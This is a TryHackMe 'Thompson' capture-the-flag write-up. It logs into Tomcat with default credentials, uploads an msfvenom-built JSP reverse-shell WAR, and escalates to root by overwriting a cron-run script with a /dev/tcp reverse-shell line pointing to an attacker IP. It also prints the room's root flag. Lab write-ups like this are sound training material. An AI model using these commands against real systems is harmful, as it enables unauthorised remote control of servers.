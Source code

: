 ```yaml
---
title: "TryHackMe - Thompson"
published: 2025-09-14
description: "TryHackMe Thompson writeup — Tomcat default credentials, CVE-2017-12617 WAR exploit, and privilege escalation via cronjob script overwrite."
image: "/assets/thompson/cover.png"
tags: [TryHackMe, Linux, Tomcat, CVE-2017-12617,  Msfvenom, Cronjob]
category: "TryHackMe"
draft: false
lang: "en"
---
```


Thompson (TryHackMe) — Logged into Tomcat using default credentials, uploaded/executed a WAR to get a shell, and escalated by modifying a file used by a cronjob.

# **Recon**

Scan the ports and services.

```jsx
└─$ nmap -sC -sV 10.201.22.81     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-14 18:54 +06
Nmap scan report for 10.201.22.81
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.36 seconds
```

From the Nmap scan, we identified three open ports: `22/tcp (SSH)`, `8009/tcp (Apache JServ)`, and `8080/tcp (HTTP)`. We then opened port 8080 in the browser and accessed the **Manager App**.

![image.png](assets/thompson/image.png)

When the **Manager App** is selected, a pop-up appears requesting the user to log in with the necessary credentials. in this URL [Manager App Login](http://10.201.22.81:8080/manager/html)

![image.png](assets/thompson/image%201.png)

When you cancel the authentication required pop-up, you will get the credentials within **401 unauthorized** page.

**username**: `tomcat`

**passsword**: `s3cret`

![image.png](assets/thompson/image%202.png)

# Exploit

Before attempting to log in, I searched online and discovered a published exploit for this service: **CVE-2017-12617** (the “WAR backdoor”). There are numerous proof-of-concepts available. To leverage the exploit, you must have the Manager page login credentials.

![image.png](assets/thompson/image%203.png)

 let’s upload the reverse shell

```jsx
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<tunnel IP> LPORT=4444  -f war > shell.war
```

![image.png](assets/thompson/image%204.png)

use open up the netcat listener to connect.

```jsx
rlwrap nc -lvnp 4444
```

![image.png](assets/thompson/image%205.png)

Now, upload the reverse shell (revshell) and deploy it.

![image.png](assets/thompson/image%206.png)

 Click on the deployed file to open a shell session.

![image.png](assets/thompson/image%207.png)

# Privilege Escalation

the screenshot, we can observe two more files. Let’s take a closer look at `id.sh` and `test.txt`.

![image.png](assets/thompson/image%208.png)

Normally, the `id.sh` script runs as the root user. Interestingly, it also processes the `test.txt` file. Next, we will inspect the crontab.

![image.png](assets/thompson/image%209.png)

1. **Overwrite `id.sh` to get a root shell**

```jsx
echo "sh -i >& /dev/tcp/10.17.68.220/53 0>&1" > id.sh
```

- This **replaces** the original `id.sh` script with a reverse shell.
- `sh -i` → starts an interactive shell.
- `>& /dev/tcp/10.17.68.220/53` → connects the shell to your attacking machine IP and port.
- `0>&1` → redirects input and output so you can control the shell.

![image.png](assets/thompson/image%2010.png)

Start a listener on your machine

```jsx
nc -lvnp 53
```

- Waits for the target machine to connect back.
- Once the connection happens, you’ll have a **root shell**.

![image.png](assets/thompson/image%2011.png)

root.txt flag: **`d89d5391984c0450a95497153ae7ca3a`**

# Summary

- Logged into Tomcat with default credentials.
- Uploaded a reverse shell via the WAR backdoor exploit.
- Gained shell access as the Tomcat user.
- Escalated privileges to root by modifying a cron-executed script.
- Captured the root flag: d89d5391984c0450a95497153ae7ca3a

